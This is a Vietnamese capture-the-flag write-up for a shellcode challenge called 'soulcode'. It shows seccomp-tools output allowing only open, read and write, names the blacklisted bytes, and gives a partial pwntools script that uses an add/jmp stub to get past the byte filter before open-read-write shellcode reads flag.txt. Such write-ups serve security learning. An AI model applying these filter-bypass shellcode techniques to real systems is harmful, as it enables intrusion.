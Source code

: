 - ta thấy ở đầu tiên nó sẽ set dữ liệu null cho shellcode , tiếp theo là read vào với lenght là 500 bytes , ở đây sẽ có 2 hàm đặc biệt 
-  ```filter(&shellcode,4);``` hàm này sẽ check xem shellcode của ta có các byte trong blacklist không bằng cách sử dụng ```strpbrk```
-  tiếp theo nữa là sẽ dùng seccomp để filter syscall , ta sẽ check nó bằng ```seccomp-tools```


```cs
ploi@PhuocLoiiiii:~/pwn/shellcode/dante2023$ seccomp-tools ./soulcode
Invalid command './soulcode'

See 'seccomp-tools --help' for list of valid commands
ploi@PhuocLoiiiii:~/pwn/shellcode/dante2023$ seccomp-tools dump ./soulcode
Before you leave the realm of the dead you must leave a message for posterity!
a
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```

- tiếp tục là 1 bài orw , các byte filter sẽ là : 

```cs
0x89 0x05 0x0f 0x80 0xcd
```

### exploit

- sẽ có khá nhiều cách để làm bài này , ta có thể sử dụng add và jmp để vượt qua được hàm filter bằng cách sau : 

về chi tiết thì mình chưa hiểu lắm =)))

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./soulcode')
p = process()

jmpsc = asm('''
            add rdx,0x50
            jmp rdx
            ''')

sc = asm(shellcraft.open("./flag.txt"))
sc += asm(shellcraft.read("rax","rsp",0x50))
sc += asm(shellcraft.write(1,"rsp",0x50))

sc_real = jmpsc+ b'\x00'*(0x50-len(jmpsc)) + sc
```